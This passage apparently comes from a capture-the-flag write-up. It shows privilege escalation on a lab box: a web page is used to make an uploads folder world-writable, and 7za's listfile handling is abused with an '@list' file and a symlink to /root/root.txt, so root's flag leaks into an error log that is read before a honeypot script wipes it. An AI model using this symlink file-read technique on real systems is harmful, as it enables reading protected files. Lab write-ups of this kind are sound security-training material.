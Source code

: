    2. Leverage `7za`'s `[<@listfiles...>]`:
      1. Write to the `/var/www/html/uploads` directory:
         ```sh
         cd /var/www/html/uploads

         ls -la
         # ls: cannot open directory .: Permission denied

         ls -lah ../
         # ...
         # drwxr-x--x. 2 apache apache    6 Oct 23  2018 uploads
         ```
         __NOTE(S)__:
         - The reverse shell from earlier has a user `apache`
         - The permissions could be changed using __/page.php__

      2. Change `/var/.../uploads`'s permissions using __/page.php__:
         
         inputCmd | inputOTP
         --- | ---
         `chmod 777 /var/www/html/uploads` | Generate an OTP using `stoken`

      3. Create __*relevant*__ files:
         ```sh
         cd /var/www/html/uploads

         touch @list

         ln -s /root/root.txt list

         ls -lah
         # drwxrwxrwx. 2 apache   apache    31 Jun 18 21:42 .
         # drwxr-xr-x. 6 root     root     176 Oct 23  2018 ..
         # lrwxrwxrwx. 1 ldapuser ldapuser  14 Jun 18 21:42 list -> /root/root.txt
         # -rw-rw-r--. 1 ldapuser ldapuser   0 Jun 18 21:42 @list
         ```
         __NOTE(S)__:
         - Since `list` is not a valid __*listfile*__, an error will be thrown
         - Attempt to capture `/backup/error.log` before contents are __*truncated*__ by `honeypot.sh`

      4. Capture contents of `/backup/error.log`:
         ```sh
         while ! [ -s /backup/error.log ]; do : ; done; cat /backup/error.log
         #
         # WARNING: No more files
         # fd6d2e53c995e6928cd0f040c79ba053
         #
         ```